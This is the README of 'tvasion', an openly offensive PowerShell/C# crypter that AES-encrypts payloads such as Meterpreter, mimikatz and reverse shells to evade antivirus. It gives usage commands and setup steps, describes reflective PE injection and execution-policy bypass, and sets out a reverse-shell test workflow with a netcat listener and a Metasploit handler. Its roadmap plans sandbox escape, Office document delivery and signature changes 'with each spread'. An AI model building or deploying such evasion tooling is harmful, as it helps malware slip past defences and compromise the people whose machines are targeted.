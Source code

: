 # tvasion - Powershell / C# AES anti virus evasion 
Anti virus evasion based on file signature change via AES encryption with Powershell and C# AV evasion templates which support executable and Powershell payloads with Windows executable, Powershell or batch output. Developed with Powershell on Linux for Windows targets :)

Buzzwords: Anti virus evasion, AV evasion, crypter, AES encryption, ReflectivePEInjection, PowerShell execution policy bypass

[https://github.com/loadenmb/tvasion](https://github.com/loadenmb/tvasion)

## Features
- outputs 32 bit executable (.exe), Powershell (.ps1) or batch (.bat)
- works with excutable + Powershell payloads
- AES encryption for file signature change
- Powershell and C# evasion templates available
- EXOTIC: Powershell, mono mcs based developed on Linux for Windows targets :-)

## Usage
```
./tvasion.ps1 -h
tvasion: AES based anti virus evasion
./tvasion.ps1 -t (exe|bat|ps1) [PAYLOAD (exe|ps1)] OR ./tvasion.ps1 [PAYLOAD (exe|ps1)] -t (exe|bat|ps1)
parameter:
[PAYLOAD (exe|ps1)]       input file path. requires: exe, ps1                     required
-t (exe|ps1|bat)          output file type: exe, ps1, bat                         required
-f (PATH)                 path to template                                        optional
-o (PATH)                 set output directory. default is ./out/                 optional
-d                        generate debug output                                   optional
-h                        display this help                                       optional
examples:
./tvasion.ps1 -t exe tests/ReverseShell.ps1                                       # generate windows executable (.exe) from powershell
./tvasion.ps1 -t exe tests/ReverseShell_c#amd64.exe                               # generate windows executable (.exe) from excecutable
./tvasion.ps1 -t bat tests/ReverseShell.ps1                                       # generate batch (.bat) from powershell
./tvasion.ps1 -t ps1 tests/ReverseShell_c#amd64.exe -f mytpl1.ps1 -o ../ -d       # ... .exe -> .ps1, custom template (-f), out dir (-o), debug (-d)
```
Files generated in ./out directory
See more examples in: [test file](tests.ps1)

## Setup Debian Stretch / Kali Linux
Depencies:
- [PowerShell](https://github.com/PowerShell/PowerShell)  
- [mono-mcs](https://www.mono-project.com/docs/about-mono/languages/csharp/) (optional but required for cross plattform executable compilation for executeable payloads)

```shell
# setup Powershell for Linux. see link above, be root

# install compiler depencies (optional, required for executable output)
apt-get install -y mono-mcs

# clone with git
git clone https://github.com/loadenmb/tvasion.git
```
    
## Details & advanced usage
Change AES decryption template source code to make sure evasion output is undetectable by anti virus solutions.

C# and powershell templates from ./templates/ directory basically do: 
```
decode -> decrypt -> launch payload
```
It's input / output type dependent which template needs changes. See here:

| payload type  |  output type  | template from ./templates/ folder |  details |
| ------------- | ------------- | --------------------------------- | -------- |
| powershell    | powershell    | default.ps1                       | Invoke-Expression |
| executable    | powershell    | default_exe.ps1                   | Invoke-Expression + ReflectivePEInjection (*1) |
| executable    | executable    | default_exe.cs                    | PEInjection (*1) |
| powershell    | executable    | default.cs                        | PowerShell execution policy bypass with -Enc (*2) |
| powershell    | batch         | default_bat.ps1 + default.bat     | PowerShell execution policy bypass with -C + Invoke-Expression |
| executable    | batch         | default_exe_bat.ps1 + default.bat | PowerShell execution policy bypass with -C + Invoke-Expression + ReflectivePEInjection (*1) |

(*1) not all binaries work; Meterpreter, mimikatz work. See [DEP](https://stackoverflow.com/questions/350977/how-to-make-my-program-dep-compatible), [ASLR](https://security.stackexchange.com/questions/18556/how-do-aslr-and-dep-work), and [what to do against](https://security.stackexchange.com/questions/20497/stack-overflows-defeating-canaries-aslr-dep-nx).

(*2) payload size restriction of arguments length of process.startupinfo.arguments see TODO

./templates/lib/ contain helper which get encrypted together with payload. You do not need to care about these files for a successful AV evasion.

Payload is created by [tvasion.ps1](tvasion.ps1) like this:
```
payload -> AES encryption -> base64 encoding 
                                -> pasted into powershell script (.ps1 -> .ps1) 
                                        -> base64 encoding 
                                                -> pasted & compiled into C# windows executeable (.ps1 -> .exe)             
                                                -> pasted into batch file (.ps1 | .exe -> .bat)  
                                                
payload -> gzip compression -> base64 encoding -> pasted & compiled into C# dotnet assembly -> AES encryption -> base64 encoding -> pasted & compiled into C# windows executeable (.exe -> .exe)
```

### Tests
Powershell reverse shell is included in ./tests/ folder for testing purposes. 

Run tests:
- [setup metasploit framework](https://metasploit.help.rapid7.com/docs/installing-the-metasploit-framework)
- change IP to your IP in configruation block of: ./tests.ps1
- run msfconsole in seperate terminal
- run ./tests.ps1 for compilation / test file creation. see ./out/ for results
- listen for reverse connections on linux machine:
```shell
# listen for reverse shell connections from ./tests/ReverseShell.ps1 and ./tests/ReverseShell.cs.
nc -nvlp 4242
```
```shell
# use msfconsole you opened in other terminal, we need this launched before to generate Meterpreter in ./tests.ps1
# listen with metasploit multi handler for windows/meterpreter/reverse_tcp on port 4444 (tests.ps1 generated Meterpreter will connect this port)
cd ./tvasion/tests/
msfconsole
resource msf_multihandler.rc
```
- copy files from ./out/ directory to target Windows machine & execute

## Roadmap / TODO / ideas (feel free to work on)
- add shellcode payloads as input / output type
- add compression / script comment removement for powershell payloads / templates
- add better / alternative templates
    - fix ps1 -> exe payload size restriction / add alternative C# launcher via System.Management.Automation
    - add alternative ps1 -> ps1 template via System.Management.Automation
    - add encrypted window hide via kernel32 to all powershell stage2 templates (scanners may match for -windowstyle hidden on pwsh launch)?
- add more evasion / obfocusation functionality:
    - randomize variable names, white spaces / line breaks / tabs, call order (between markers only)
    - hide native method names
    - better cloaking for encrypted payload string
    - auto generated useless code
    - anti virus sandbox escape (maybe via long execution delay or try to allocate many resources until sandbox stops processing)
- make ./tvasion.ps1 self run on windows not created files only (never tested, this makes it easy to integrate tvasion in your tools to automatically change your signature with each spread)
- add new output types:
    - vcf ouput (local code execution, if working in 2019) 
    - .doc + .xls ouput via DDEAUTO or OLE / Powerquery (local code execution without macro)
- add executable file binder (PE file injection)?
- create cmdlet / proper psm module?
- bring back pipes support (string / hex pipes only, pswh has no binary pipes)
- use constitent rules for replacements: #REPLACE;0#, #REPLACE;1#

## Contribute
Discuss features, report issues, questions -> [here](https://github.com/loadenmb/tvasion/issues).

Developer -> fork & pull ;)

## Related
- [Powershell ReflectivePEInjection](https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1) @ github
- [C# PE loader](https://github.com/Arno0x/CSharpScripts/blob/master/peloader.cs) @ github
- [15 ways to bypass PowerShell execution policy](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/) @ external blog
- [AVIator - popular C# AES crypto evasion with UI, without templates](https://github.com/Ch0pin/AVIator) @ github
